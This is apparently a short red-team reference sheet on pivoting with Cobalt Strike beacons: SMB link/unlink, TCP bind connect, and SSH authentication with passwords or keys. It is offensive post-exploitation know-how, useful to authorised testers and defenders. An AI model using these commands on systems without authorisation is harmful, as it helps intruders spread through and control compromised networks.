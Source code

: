 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## SMB

Link SMB beacon from the windows target.

```
beacon> link <IP
```

Unlink SMB beacon from the windows target. You can re-`link` the disconnected windows target from a different live beacon session.

```
beacon> unlink <IP>
```

## TCP

Connect TCP bind beacon from a windows target.

```
beacon> connect <IP> [<PORT>]

ssh> connect <IP> [<PORT>]
```

Disconnect TCP bind beacon from a windows target.

```
beacon> unlink <IP>

ssh> unlink <IP>
```

## SSH

Authenticate SSH credentials from a UNIX target.

```
beacon> ssh <IP> <username> <password>

beacon> ssh-key <IP> <username> /path/to/local/ssh_key
```